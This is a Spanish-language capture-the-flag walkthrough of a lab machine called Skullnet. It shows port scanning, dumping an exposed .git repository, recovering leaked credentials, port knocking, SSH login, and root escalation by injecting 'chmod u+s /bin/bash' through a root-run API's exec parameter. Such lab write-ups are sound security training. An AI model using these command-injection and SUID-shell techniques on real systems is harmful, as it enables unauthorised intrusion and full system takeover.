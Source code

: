 Maquina: Skullnet

Autor: The Hacker Labs

Dificultad: Dificil

![Screenshot 2024-11-16 095739](https://github.com/user-attachments/assets/5b69c447-8f76-4777-89e0-f4dcc3380249)

ping 172.18.0.2 -c 1

![Screenshot 2024-11-16 103630](https://github.com/user-attachments/assets/98973b45-693a-4426-8722-d09e20842a5a)

Hacemos un escaneo de los puertos

nmap -sC -sV -Pn 172.18.0.2 -oG escaneo

![Screenshot 2024-11-16 103847](https://github.com/user-attachments/assets/7c3f10fb-1286-4be3-a496-72c98e456203)

Añadimos la ip a /etc/hosts

![Screenshot 2024-11-16 104855](https://github.com/user-attachments/assets/8aa55dae-716b-4f12-beec-1e8d80d17d6f)

Hacemos un escaneo mas detallado y encontramos un directorio .git

nmap -sC -sV -Pn --open 172.18.0.2

![Screenshot 2024-11-16 104931](https://github.com/user-attachments/assets/2e98fb2b-410d-49a9-8380-8d4ac43c0b04)

vamos a la web encontrada del repositorio de git 

http://skullnet.es/.git/

![Screenshot 2024-11-16 113342](https://github.com/user-attachments/assets/66024a49-87e3-4558-b20f-d078a9cccaee)

usamos wget

wget -r http://skullnet.es/.git/

![Screenshot 2024-11-16 113355](https://github.com/user-attachments/assets/bec08fe1-f665-4fd4-aa3c-b4c1590e39f5)

ls    

cd skullnet.es    

ls -a 

git log

descubrimos 2 hashes

![Screenshot 2024-11-16 113415](https://github.com/user-attachments/assets/fd0e2d19-6129-4461-baac-bb362bdcdcc2)

Revisamos cada commit, en el primero observamos que tenemos un mensaje

git show 9c902d081106a85cf2d928cd96a1cd9c90d7a2c9

![Screenshot 2024-11-16 113450](https://github.com/user-attachments/assets/90f6aea5-1218-46be-af7a-e20338352a19)

En el segundo commit tenemos lo siguiente

git show 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![Screenshot 2024-11-16 113517](https://github.com/user-attachments/assets/c05d26f4-3e00-4c90-9402-211f92fe6e5b)

Observamos que identificamos varios archivos

Para recuperar los archivos

git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d  

ls

git diff

![Screenshot 2024-11-16 113947](https://github.com/user-attachments/assets/04154f80-6e89-42ee-9d41-134210af4d34)

git checkout -- .

ls

![Screenshot 2024-11-16 114032](https://github.com/user-attachments/assets/77132f4c-6b43-441b-bbed-352c054579ae)

cat authentication.txt

Obtenemos unas credenciales

skulloperator:+%7nj^g!DQxp]a>c4v&0

![Screenshot 2024-11-16 114058](https://github.com/user-attachments/assets/af9b81e8-37e2-441d-8cb1-b3357391d8eb)

Seguimos revisando y ahora debemos buscar el archivo /network.pcap

wireshark network.pcap

Abrimos el archivo con whireshark, como la consulta es corta podemos hacerlo manual. 
Comprobando la captura podemos observar que en la IP de nuestro interés se tiene comunicación con el puerto SSH y 3 puertos adicionales

![Screenshot 2024-11-16 114313](https://github.com/user-attachments/assets/68f61549-87d5-4247-a292-55ba1e440311)

Con esta información realizaremos un port knocking a los puertos encontrados

knock -v 172.18.0.2 1000 12000 5000

![Screenshot 2024-11-16 115003](https://github.com/user-attachments/assets/f7922159-5e99-482c-a5da-0d49b6b83772)

ejecutar nmap

nmap -p22 172.18.0.2

![Screenshot 2024-11-16 115021](https://github.com/user-attachments/assets/297d6b9f-5e74-45e4-a64d-950c1835fd18)

Ya que tenemos habilitado el puerto SSH 

Accedemos por ssh con las credenciales obtenidas

ssh skulloperator@172.18.0.2

![Screenshot 2024-11-16 115325](https://github.com/user-attachments/assets/7b48504b-c5aa-45c3-8e89-5eb1916a83a9)

ls

cat user.txt

![Screenshot 2024-11-16 115325](https://github.com/user-attachments/assets/ade0c15d-6f3c-492e-9fd8-4d466f0f8c50)

![Screenshot 2024-11-16 115412](https://github.com/user-attachments/assets/646eaf72-a5e0-41df-8d4d-eaabf55afb2e)


find / -perm -4000 -ls 2> /dev/null

![Screenshot 2024-11-16 115727](https://github.com/user-attachments/assets/ec11e213-ead9-4d38-b242-8deaf7908f55)

ps -faux

![Screenshot 2024-11-16 115752](https://github.com/user-attachments/assets/9464534a-89ae-4ec9-a2c8-6b6acc5de4f3)

Revisando procesos observamos que tenemos el archivo skullnet_api.py que lo está ejecutando root

![Screenshot 2024-11-16 120010](https://github.com/user-attachments/assets/17479735-ee3c-4b5a-bd5f-5ab5ad9a81a3)

Abrimos el archivo y podemos observar el siguiente escucha en el puerto 8081 y ejecuta comandos cuando recibe una solicitud http get con un parámetro específico

![Screenshot 2024-11-16 120111](https://github.com/user-attachments/assets/26614078-4fbb-4c72-b22f-79284415c038)

Este código para la parte de autenticación espera un encabezado Authorization con el esquema de basic, como tenemos la clave de autenticación AUTH_KEY_BASE64 y si esa sección convertimos de base 64 podemos observar lo siguiente:

echo "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA==" | base64 -d

Con esto en conocimiento la estructura del encabezado de Authorization sería la siguiente

Authorization: basic we_are_bones_513546516486484

![Screenshot 2024-11-16 120337](https://github.com/user-attachments/assets/da95a1bd-4245-43a9-8018-86fc226da87f)

usamos curl con el parametro exec

Ejecutamos el comando y podemos observar que listamos archivos y también podemos observar que los ejecutamos como root

curl http://172.18.0.2:8081/?exec=ls -H 'Authorization: Basic we_are_bones_513546516486484'

curl http://172.18.0.2:8081/?exec=whoami -H 'Authorization: Basic we_are_bones_513546516486484'

Encodeamos la URL con https://www.urlencoder.org/

whoami; chmod u+s /bin/bash

whoami%3B%20chmod%20u%2Bs%20%2Fbin%2Fbash

![Screenshot 2024-11-16 123436](https://github.com/user-attachments/assets/6dec753e-d6cf-4e71-a65e-55ca9325133b)

![Screenshot 2024-11-16 123352](https://github.com/user-attachments/assets/91f9c799-2201-4453-84f7-fe77ae7b08d8)

ls -l /bin/bash

bash -p

whoami

![Screenshot 2024-11-16 123704](https://github.com/user-attachments/assets/a8afc596-0c0e-406c-800b-38a969f112ab)
